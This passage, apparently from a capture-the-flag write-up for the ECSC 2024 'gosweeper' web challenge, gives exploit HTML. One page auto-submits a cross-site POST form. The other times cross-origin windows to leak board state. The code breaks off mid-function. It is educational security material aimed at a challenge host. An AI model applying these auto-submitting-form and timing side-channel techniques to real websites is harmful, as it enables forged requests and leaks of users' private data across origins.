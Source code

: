 This implies that we can utilize auto-submitting forms to implement our side channel.

Here is the exploit:

{{< code language="html" title="pwn.html" id="10" expand="Show" collapse="Hide" isCollapsed="true" >}}
<html>
<script>
    const URL = "https://gosweeper.challs.open.ecsc2024.it"
    const id = "c444ba1b1bdaaf883151c13afca7bf1a"
    const to_guess = 3
    
    window.open(URL + "/clone?cloneid=" + id);
    window.open("/?guess=" + to_guess);
	
	</script>	
</html>
{{< /code >}}


{{< code language="html" title="index.html" id="11" expand="Show" collapse="Hide" isCollapsed="true" >}}
<html>
		<body>
			<form
			method="POST"
			action="https://gosweeper.challs.open.ecsc2024.it/guess"
			id="form"
			target="popup">

			<input type="hidden" name="guess" id="to_guess" value="7" />
			<input type="submit" value="submit" />
		  </form>

</body>

<script>
	
	const urlParams = new URLSearchParams(window.location.search);
	let guess = urlParams.get('guess');
	
	if (guess == undefined) {
		guess = 0
	}

	document.getElementById("to_guess").value = guess;

		var limit = 600;

		var b = window.open("about:blank", "popup", "width=300, height=300");
		document.forms["form"].submit();
		
		setTimeout(() => {
			var t = performance.now();
		var a = window.open("https://gosweeper.challs.open.ecsc2024.it/board?xray=1", "", "width=300, height=300");
	
	
		function measure(){			
				try{
					a.origin;
					